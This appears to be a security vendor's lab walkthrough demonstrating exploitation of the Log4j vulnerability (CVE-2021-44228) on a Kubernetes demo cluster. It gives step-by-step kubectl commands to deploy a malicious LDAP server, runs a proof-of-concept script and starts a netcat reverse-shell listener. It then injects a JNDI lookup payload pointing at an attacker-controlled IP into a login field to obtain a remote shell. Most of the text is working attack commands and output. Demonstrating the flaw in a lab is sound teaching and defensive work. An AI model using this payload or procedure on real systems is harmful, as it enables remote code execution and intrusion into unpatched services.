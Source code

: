 ### Exploiting Log4j vulnerability

**Step 1:** Deploying malicious ldap server on namespace java-ms

```
kubectl apply -f https://raw.githubusercontent.com/accuknox/samples/main/log4j-demo/k8s-ldap.yaml -n java-ms
```

Check pods and services running

```
kubectl get po,svc -n java-ms
```

Output:

```
NAME                           READY   STATUS    RESTARTS   AGE
pod/java-ms-56b9c47579-8k2xc   1/1     Running   0          6m48s
pod/nc-pod-679c75d5b7-hcwh8    1/1     Running   0          104s

NAME                  TYPE           CLUSTER-IP     EXTERNAL-IP    PORT(S)                                        AGE
service/java-ms-svc   LoadBalancer   10.88.9.132    34.136.7.141   80:30753/TCP                                   7m16s
service/nc-svc        LoadBalancer   10.88.13.152   34.68.190.28   4444:31515/TCP,8000:31247/TCP,1389:31121/TCP   2m28s
```

**Step 2:** Execute into the LDAP server pod

```
kubectl exec -it nc-pod-679c75d5b7-hcwh8 -n java-ms -- bash
```

Note: Change nc-pod-679c75d5b7-hcwh8 to your pod name.

**Step 3:** Run command inside the pod

Note: userip → external IP of the nc-svc

```
python3 poc.py --userip 34.68.190.28 --webport 8000 --lport 4444
```

Note: Replace 34.68.190.28 with your external IP of the service nc-svc

Output:

```
root@nc-pod-679c75d5b7-hcwh8:/poc# python3 poc.py --userip 34.68.190.28 --webport 8000 --lport 4444

[!] CVE: CVE-2021-44228

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://34.68.190.28:1389/a}
[+] Starting Webserver on port 8000 http://0.0.0.0:8000

Listening on 0.0.0.0:1389
```

**Step 4:** Open another terminal and execute into the netcat pod nc-pod-679c75d5b7-4gkjl to listen for reverse shell connection

Note: Here we are using the same pod for the LDAP server and netcat

```
kubectl exec -it nc-pod-679c75d5b7-hcwh8 -n java-ms -- bash
```

Run the below command inside the pod nc-pod-679c75d5b7-4gkjl to listen for reverse shell

```
nc -lvnp 4444
```

Output:

```
root@nc-pod-679c75d5b7-4gkjl:/poc# nc -lvnp 4444
Listening on 0.0.0.0 4444
```

**Step 5:** Get external IP to surf the application:

```
kubectl -n java-ms get service java-ms-svc | awk '{print $4}'
```

Type ${jndi:ldap://34.68.190.28:1389/a} in username field and click Login

Note: 34.68.190.28 replace with your nc-svc external IP

**Step 6:** Check netcat pod `nc-pod-679c75d5b7-4gkjl`. You will get a reverse shell to java pod.

Note: Try hostname command, you can see hostname is the name of the java microservice pod.

Now we got the reverse shell to the java microservice pod from the netcat pod using log4j vulnerability.


